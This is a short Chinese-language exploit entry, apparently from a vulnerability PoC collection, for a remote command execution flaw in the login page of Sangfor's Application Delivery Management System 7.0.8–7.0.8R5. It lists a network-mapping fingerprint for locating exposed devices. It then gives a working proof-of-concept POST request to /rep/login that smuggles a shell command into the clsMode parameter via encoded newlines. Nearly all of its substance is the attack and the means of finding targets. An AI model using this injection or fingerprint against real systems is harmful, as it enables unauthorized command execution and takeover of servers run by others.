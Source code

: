 # 深信服 应用交付管理系统 login 远程命令执行漏洞

## 漏洞描述

深信服 应用交付管理系统 login 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

<a-checkbox checked>深信服 应用交付管理系统 7.0.8-7.0.8R5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>fid="iaytNA57019/kADk8Nev7g=="</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1675307887742-7f1d91ab-0fc3-4b09-b434-70466ec13871.png)

验证POC

```plain
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1675307928621-8722e4f7-ddd8-44ee-9010-4f9189a12081.png)
